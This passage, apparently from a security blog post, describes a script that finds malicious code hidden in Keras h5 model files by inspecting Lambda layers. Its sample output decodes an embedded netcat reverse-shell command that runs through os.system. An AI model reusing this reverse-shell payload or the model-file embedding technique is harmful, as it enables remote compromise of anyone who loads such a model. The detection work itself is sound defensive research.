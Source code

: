 It turns out that the `h5` format stores some data in JSON format, specifically the model structure end layer details. So I am able to extract this part of the content with a simple regex and analyses it as normal JSON content. This allows me to extract the layer type, name as well as the special `function` parameter used by the `Lambda` layer which contains the base64 encoded serialized python code.


```
Checking model infected.h5

Found Lambda layer with name "output"
With body function:
Raw base64:
4wEAAAAAAAAAAAAAAAIAAAADAAAAQwAAAHMWAAAAZAFkAGwAfQF8AaABZAKhAQEAfABTACkDTukA
AAAA+lBybSAtZiAvdG1wL2Y7bWtub2QgL3RtcC9mIHA7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+
JjF8bmMgMTI3LjAuMC4xIDY2NjYgPi90bXAvZikC2gJvc9oGc3lzdGVtKQLaAXhyAwAAAKkAcgYA
AAD6Ji9ob21lL3RvYmlhL0Rlc2t0b3AvTGFtYmRhL3RyYW5zZmVyLnB52gdleHBsb2l0AwAAAHMG
AAAACAEKAQQB

Decoded:
ãCsddl}| d¡|S)NéúPrm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f)ÚosÚsystem)Úxr©rú&/home/tobia/Desktop/Lambda/transfer.pyÚexploits


Found 1 Lambda functions
```

Running this on the `infected.h5` model which also contains the VGG16 layers and weights, reveals the malicious payload.

All the scripts from this blogpost can be found in the Github repo: [https://github.com/Splinter0/tensorflow-rce](https://github.com/Splinter0/tensorflow-rce)